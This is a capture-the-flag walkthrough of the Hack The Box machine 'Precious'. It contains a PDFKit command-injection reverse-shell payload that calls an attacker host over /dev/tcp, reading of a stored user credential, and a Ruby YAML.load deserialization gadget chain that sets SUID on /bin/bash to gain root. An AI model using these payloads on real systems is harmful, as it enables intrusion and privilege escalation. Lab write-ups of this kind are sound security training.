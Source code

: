 ```yaml
---
title: Precious 
date: 2022-11-27 12:00:00
categories: [HTB,CTF]
tags: [htb]
---
```


# Enumeration

First let's add precious.htb to /etc/hosts

## Rustscan

```bash
mkdir rust; sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a precious.htb -- -sV -sC -oA ./rust/{{ip}}
```

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 65000.
Open 10.129.77.196:22
Open 10.129.77.196:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Port | Technology                |
| ---- | ------------------------- |
| 80   | NGINX + Phusion Passenger |

Phusion Passenger seems to be an extension to support various kinds of application type like ruby  
[https://en.wikipedia.org/wiki/Phusion_Passenger](https://en.wikipedia.org/wiki/Phusion_Passenger)

## Webpage

Visiting [http://precious.htb](http://precious.htb) will display a page that says "Convert Web Page to PDF".  
A quick check using a locally setup webserver showed that the page is exactly doing that.

Using Burp we check our requests and can identify that **Ruby** is used!

```http
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Sun, 27 Nov 2022 19:02:41 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
Content-Length: 506
```

## Dirsearch

Found nothing

## Feroxbuster

Also no results

# Exploitation

Searching for Ruby and HTML to PDF vulnerabilities will lead you to [PDFKIT - Command Injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

We'll use that POC to craft our payload and get a reverse shell  

**Payload**
```http
http://attacking.machine/?name=#{'%20`bash -c 'bash -i >& /dev/tcp/attacking-machine-ip/4000 0>&1'`'}
```

After submitting the malicious url on [http://precious.htb](http://precious.htb) we will receive a reverse shell as user `ruby`  

## Become User henry

In `/home/ruby/.bundle` is a file located that is called `config`.  In that file you will find the password of user `henry`

```yaml
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:CENSORED"
```

Become User `henry`

```bash
su - henry
```

# Escalation

## Local Enumeration

Always the first thing todo is to check for any sudo privileges

```bash
sudo -l
```

```bash
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Looks like we are allowed to update dependencies as root user. Smells like a ruby deserialization attack

**/opt/update_dependencies.rb**

Checking the file we are allowed to run will confirm my assumption. `YAML.load` is extremely unsafe and shouldn't be used according to [Ruby - YAML](https://ruby-doc.org/stdlib-2.5.1/libdoc/yaml/rdoc/YAML.html)

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

## Privilege Escalation

We will use a Universal RCE for Ruby YAML.load - [YAML.load - RCE](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)

### dependencies.yaml

First we have to create the dependencies.yaml file in our current location and modify `git_set` to add suid on `/bin/bash`

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

### Root

```bash
# Will throw some errors after execution
sudo /usr/bin/ruby /opt/update_dependencies.rb
# Check permissions on /bin/bash
ls -al /bin/bash
# -rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

```bash
# If bash has SUID bit set it does not drop the elevated privileges. So we will use that as planned 
/bin/bash -p
id
# uid=0(root) gid=0(root) groups=0(root)
```